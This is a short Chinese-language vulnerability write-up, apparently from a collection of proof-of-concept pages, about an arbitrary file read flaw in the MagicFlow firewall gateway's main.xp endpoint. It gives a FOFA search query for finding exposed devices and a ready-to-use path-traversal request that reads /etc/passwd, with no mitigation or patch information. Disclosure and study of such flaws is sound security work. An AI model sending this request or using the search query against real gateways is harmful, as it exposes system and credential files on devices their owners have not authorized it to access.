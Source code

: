 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## FOFA

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](./images/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](./images/202202162301323.png)